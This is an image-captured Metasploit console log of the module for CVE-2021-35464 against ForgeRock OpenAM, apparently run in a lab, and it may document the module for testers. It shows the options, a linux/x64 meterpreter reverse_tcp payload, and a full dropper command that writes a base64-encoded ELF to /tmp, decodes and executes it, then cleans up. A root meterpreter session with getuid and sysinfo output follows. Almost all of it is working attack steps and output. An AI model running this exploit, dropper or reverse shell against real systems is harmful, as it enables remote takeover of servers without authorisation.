 ```
                                         machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /openam          yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[+] Successfully executed command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwSAAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/rxeJM.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/drsZI' < '/tmp/rxeJM.b64' ; chmod +x '/tmp/drsZI' ; '/tmp/drsZI' ; rm -f '/tmp/drsZI' ; rm -f '/tmp/rxeJM.b64'
[*] Sending stage (3012548 bytes) to 172.18.0.2
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 2 opened (172.18.0.1:4444 -> 172.18.0.2:53510) at 2021-07-09 16:37:32 -0500

meterpreter > getuid
Server username: root @ 731c8d4b9b26 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 8.5 (Linux 5.8.0-59-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```